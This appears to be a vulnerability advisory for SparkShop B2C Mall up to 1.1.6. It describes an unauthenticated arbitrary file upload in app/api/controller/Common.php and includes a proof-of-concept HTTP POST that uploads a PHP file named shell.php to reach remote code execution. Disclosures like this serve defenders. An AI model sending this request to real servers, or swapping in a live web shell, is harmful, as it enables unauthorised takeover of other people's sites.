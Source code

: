 ### BUG_Author:

Rui Jie

### Affected version:

<=1.1.6

### Vendor:

Nanjing Xingyuantu Technology Co. 

SparkShop(Spark Mall) B2C Mall https://www.sparkshop.cn/
### Software:

https://gitee.com/sparkshop/sparkshop


https://github.com/nick-bai/sparkshop

### Vulnerability File:

app/api/controller/Common.php
### Description:
 A vulnerability categorised as critical has been discovered in SparkShop (Spark Mall) B2C Mall. This affects sections of the unauthorised interface file app/api/controller/Common.php. Manipulation of the parameter file results in arbitrary file uploads



![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202406271558047.png)
And there's no security check on the file upload part
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202406271559268.png)
We can upload any file via unauthorised api for RCE purposes.


POC
```
POST /api/Common/uploadFile HTTP/1.1
Host: 127.0.0.5
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 166
Content-Type: multipart/form-data; boundary=5f0c1dda2c37ae232c96415ad53dc96b

--5f0c1dda2c37ae232c96415ad53dc96b

Content-Disposition: form-data; name="file"; filename="shell.php"

  

<?=phpinfo();?>

--5f0c1dda2c37ae232c96415ad53dc96b--
```
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121552216.png)

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121557807.png)


We achieved RCE by uploading a malicious php script

